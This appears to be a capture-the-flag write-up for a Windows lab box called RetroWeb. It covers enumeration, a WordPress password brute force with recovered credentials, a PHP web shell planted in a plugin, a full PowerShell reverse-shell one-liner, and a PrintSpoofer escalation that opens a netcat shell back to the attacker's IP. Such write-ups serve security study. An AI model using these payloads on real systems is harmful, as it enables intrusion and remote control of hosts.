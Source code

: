 Running our nmap scan we have 2 open ports


```bash
# Nmap 7.94SVN scan initiated Mon Mar 11 06:41:24 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 10.10.97.2
Nmap scan report for 10.10.97.2
Host is up (0.15s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2024-03-11T05:43:47+00:00
|_ssl-date: 2024-03-11T05:43:51+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-10T05:18:49
| Not valid after:  2024-09-09T05:18:49
| MD5:   8d7a:1577:c616:ae1a:6364:e666:f0ba:53d0
|_SHA-1: d697:44ba:89ed:4056:f469:9352:05df:7214:d874:ea37
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 11 06:43:52 2024 -- 1 IP address (1 host up) scanned in 147.74 seconds
```



Navigating to port 80 we have a default windows IIS page 


![](https://i.imgur.com/ZrcU03H.png)


Since we don't have much to enumerate rather than port 80/HTTP, i decided to fuzz for directories and found `/retro`

![](https://i.imgur.com/qZBHJMR.png)



Navigating to `/retro` we found a wordpress website


![](https://i.imgur.com/kLcNXUl.png)

Enumerating this site using `wpscan` there was nothing more interesting than finding a username called **wade**

```bash
❯ wpscan --url http://10.10.97.2/retro/ -e u
```

![](https://i.imgur.com/DLJ3qAN.png)


Since we have a username let bruteforce the login page, we first need to use the `cewl` tool to generate a password wordlist from the site it self so we can use it against the username we got

```bash
❯ cewl -m 5 http://10.10.97.2/retro/ > pass.txt
```

![](https://i.imgur.com/rcu97nj.png)


Then we can bruteforce, as shown below we found a valid credentials for the user `wade`


```bash
❯ wpscan --url http://10.10.97.2/retro/ -U wade -P ./pass.txt --password-attack wp-login
```



![](https://i.imgur.com/WLBIFjJ.png)


```
wade:parzival
```


We can then login via wordpress with the username and password we have gotten

![](https://i.imgur.com/aShbHqz.png)


Now to get a **reverse shell**, navigate to **Plugins --> Plugins Editor**



![](https://i.imgur.com/FOI3vVu.png)

Then overwrite the `absolute-relative-urls.php` file and paste in your own PHP reverse shell as this is the file that will be called when we want to get the reverse shell, then scroll down and click on **Update** to complete this step


![](https://i.imgur.com/EFxEgsc.png)



Now go ahead and start up your listener and navigate to . This should trigger your reverse shell, Note that as shown below i used `rlwrap` for automatic windows shell stabilization


![](https://i.imgur.com/PzgjvSn.png)
![](https://i.imgur.com/XQrqnX6.png)



However as seen above, looks like our shell is been terminated, well this is probably cos' we are using a PHP cmd for the windows host which isn't that stable, we can therefore upload a webshell and use powershell to get a reverse shell, save the below code in the `.php` plugin and navigate to the website again


```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```


However i noticed that the plugin changes, so make sure to confirm the URL path also :P

![](https://i.imgur.com/PWLyX12.png)


Then get a reverse shell using the following powershell command, make sure to change the IP and port to yours irrespectively

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.11.69.221', 4444);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```


![](https://i.imgur.com/Du9Rrds.png)


Running `whoami /priv` we can see we have the **SeImpersonatePrivilege** enabled, this role determines which programs are allowed to impersonate a user or other specified account and perform actions on behalf of the user. we can go ahead and use this privilege to get a shell as administrator

![](https://i.imgur.com/ih3wy3s.png)


Transfer [nc64.exe](https://github.com/sec-fortress/Exploits/blob/main/nc64.exe) and [PrintSpoofer32.exe](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe) to target machine and run the below command also make sure to start your listener before doing this


```bash
# start listener
sudo nc -lvnp 443

# start exploit
.\PrintSpoofer32.exe -c "c:\windows\temp\nc64.exe 10.11.69.221 443 -e cmd"
```



![](https://i.imgur.com/A24bHmY.png)



GG 😄

